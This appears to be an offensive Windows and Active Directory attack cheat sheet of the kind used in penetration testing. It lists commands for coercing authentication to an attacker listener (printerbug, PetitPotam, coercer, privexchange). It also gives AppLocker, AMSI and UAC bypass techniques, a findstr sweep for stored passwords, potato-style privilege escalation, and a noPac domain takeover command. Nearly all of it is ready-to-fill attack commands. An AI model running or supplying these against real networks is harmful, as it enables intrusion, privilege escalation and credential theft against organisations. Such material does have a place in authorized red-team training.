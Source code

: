 ```bash
rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
+ 
printerbug.py '<domain>/<username>:<password>'@<Printer IP> <listener_ip>


PetitPotam.py  -d <domain> -u <user>-p <password> <listener_ip> <target_ip>
coercer.py -u <user> -d <domain> -p <password> -t <target> -l <attacker_ip>
```

# User level host access
## Applocker info
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe (dll/msi/...)
```
## Applocker bypasses
```
use C:\Windows\Tasks
installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe
mshta.exe my.hta
MSBuild
```
## AMSI Bypass
```
https://amsi.fail/
Use reflection from meterpreter
patch amsi.dll
```
## Find passwords
```
findstr /si 'password' *.txt *.xml *.docx
```
## UAC Bypass
```
FodHelper
WSReset
MSDT
https://github.com/hfiref0x/UACME
```
## Common Exploits
```
CVE-2021-36934 (HiveNightmare/SeriousSAM)

service account (IIS/Mssql) (got SEImpersonate)
RoguePotato
Juicy Potato / Lovely Potato
🔥 PrintSpoofer
CertPotato
```
## Other exploits:
```bash
privexchange
python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>

Sam AccountName:
.\noPac.exe -domain  <domain> -user <user> -pass <pass> /dc <dc_fqdn> /mAccount <machine_account> /mPassword  <machine_pass> /service cifs /ptt
```